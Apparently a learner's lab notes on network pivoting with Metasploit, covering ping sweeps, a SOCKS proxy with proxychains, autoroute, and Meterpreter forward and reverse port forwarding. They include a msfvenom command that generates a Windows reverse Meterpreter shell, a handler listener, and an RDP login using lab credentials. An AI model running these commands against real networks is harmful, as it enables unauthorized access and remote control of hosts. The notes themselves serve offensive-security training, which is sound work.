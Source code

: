 It seems like ping sweeps are sort of a fickle thing. Running a ping sweep directly from the Ubuntu server with:  
`for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`  
actually finds us an extra host. Apparently its also often beneficial just to run ping sweeps at least twice to see if the results change.  

### MSF SOCKS Proxy

The SOCKS proxy runs as a Metasploit **job**.  
To run it:  
`use auxiliary/server/socks_proxy`  
`set SRVPORT 9050`  
`set SRVHOST tun0`  
`set version 4a`  
`run`  
The `jobs` command will then allow us to see the job running  
Again, to inform proxychains to use 9050 we add `socks4 127.0.0.1 9050` to the last line of `/etc/proxychains.conf`  
Note: Depending on the version the SOCKS server is running, we may occasionally need to change socks4 to socks5 in proxychains.conf  

### AutoRoute

This part sort of confused me  
We ran:  
`use post/multi/manage/autoroute`  
`set SESSION 1`  
`set SUBNET 172.16.5.0`  
`run`  
Then `sessions -i 1` to get back to our interactive meterpreter session  
Then `run autoroute -s 172.16.5.0` but I'm not sure if this was necessary  
Then `run autoroute -p` to list all active routes  

### Meterpreter Port Forwarding

**Note**: Be careful with Meterpreter port forwarding; I have run into a lot of bugs. Would reccomend using `chisel` instead  

We ran `portfwd add -l 3300 -p 3389 -r 172.16.5.19` from the meterpreter session to tell the meterpreter session to forward all the packets we send to our attack host's local port 3300 to the remote ip 172.16.5.19 on port 3389.  
Now, if we run:
`xfreerdp /v:localhost:3300 /u:victor /p:pass@123` we get a RDP session  

### Meterpreter Reverse Port Forwarding

`portfwd add -R -l 8081 -p 1234 -L <tun 0 ip>`  
Will create a reverse port forward to forward all connections to port 1234 on the Ubuntu server to port 8081 on our attack box  
We then create a windows reverse meterpreter shell with:  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ubuntu server's 2nd network ip addr> -f exe -o windows_rev_met.exe LPORT=1234`  
Next, start a listner in MSFconfole with:  
`ctrl + z` to background the session  
`use exploit/multi/handler`  
`set payload windows/x64/meterpreter/reverse_tcp`  
`set LPORT 8081`  
`set LHOST tun0`  
`run`  
Next, get the meterpreter shell to the Windows host (see powershell cmdlet above) and run it  
This never actually worked for me, but I think the problem is somewhere else  
